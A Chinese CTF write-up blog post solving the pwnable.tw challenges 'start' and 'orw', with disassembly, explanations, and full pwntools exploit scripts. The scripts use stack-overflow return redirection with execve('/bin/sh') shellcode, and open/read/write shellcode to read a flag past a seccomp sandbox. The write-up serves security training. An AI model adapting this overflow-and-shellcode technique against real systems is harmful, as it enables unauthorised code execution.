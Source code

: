 ```yaml
---
title: Challenges_100-Week_3
date: 2021-01-18 20:47:11
tags: 
 - PWN
 - CTF
 - shellcode
 - pwnable.tw
categories: "PWN"
banner_img: https://imgbed.niebelungen-d.top/images/2021/01/20/1545841653_1_965baf4a4d1c37d590baae8f4967e30a.jpg
---
```


原本的两道BUUOJ的题因为太简单不再计入百题斩

# Challenges_100-Week_3

|    Challenges    |   Tricks    |
| :--------------: | :---------: |
| pwnable.tw-start | `shellcode` |
|  pwnable.tw-orw  | `shellcode` |

<!-- more -->

# start

## ida

```assembly
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX - sys_read
add     esp, 14h
retn
pop     esp
xor     eax, eax
inc     eax
int     80h             ; LINUX - sys_exit
```

调试：

```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
0x8048000  0x8049000 r-xp     1000 0      /home/niebelungen/Desktop/pwnable.tw/start/start
0xf7ff8000 0xf7ffc000 r--p     4000 0      [vvar]
0xf7ffc000 0xf7ffe000 r-xp     2000 0      [vdso]
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```

没有足够的gadget让我们利用，正好stack有rwx权限，所以我们想办法在栈上写shellcode，再ret到那里。

首先我们要想办法leak栈的地址。

在`add esp,14h`后，`esp`指向了返回地址，下一条指令就是`pop esp`,而栈上保存的就是栈的地址。通过`ret`到`mov ecx,esp`调用`sys_write`可以leak栈地址。由此，再加上一个`offset`就可以到shellcode。

注意要写入的shellcode必须要短，0x3c-0x14-0x4=0x24。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./start'
#gdb.attach(p)
if local:
	p=process(binary)
else:
	p=remote('chall.pwnable.tw',10000)

elf = ELF(binary,checksec=False)
#gdb.attach(p)

shellcode='\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68'
shellcode+='\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80'#0x17
payload='a'*0x14+p32(0x8048087)
p.send(payload)
p.recvuntil("Let's start the CTF:")
stack=u32(p.recv(4))
print hex(stack)

payload='a'*0x14+p32(stack+20)+shellcode
p.send(payload)
p.interactive()
```

pwnable.tw真的不错。这个题考察了汇编基础、shellcode的编写。这里记录一个shellcode的网站：[shellcode](http://shell-storm.org/shellcode/)

# orw

## ida

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}

unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h] BYREF
  char *v2; // [esp+8h] [ebp-80h]
  char v3[96]; // [esp+Ch] [ebp-7Ch] BYREF
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(v3, &unk_8048640, sizeof(v3));
  v1 = 12;
  v2 = v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```

这个题使用了沙箱`seccomp`用来限制系统调用。你只能使用`open`, `read`, `write`的系统调用。但是沙箱其实还有更复杂的机制，由于与本题的重点关系不大所以不再赘述。由于限制，我们的shellcode只能使用上述的三个函数。

## exp

```python
from pwn import *
#from LibcSearcher import LibcSearcher

leak = lambda name,addr: log.success('{:#x}'.format(name,addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./orw'
#gdb.attach(p)
if local:
        p=process(binary)
else:
        p=remote('chall.pwnable.tw',10001)

elf = ELF(binary,checksec=False)
#gdb.attach(p)
file_name = "/home/orw/flag"
shellcode = shellcraft.open(file_name)
shellcode += shellcraft.read('eax','esp', 100)
shellcode += shellcraft.write(1, 'esp', 100)
shellcode = asm(shellcode)
p.sendline(shellcode)

p.interactive()
```

我这里取巧了，其实它的目的是让你手写汇编代码。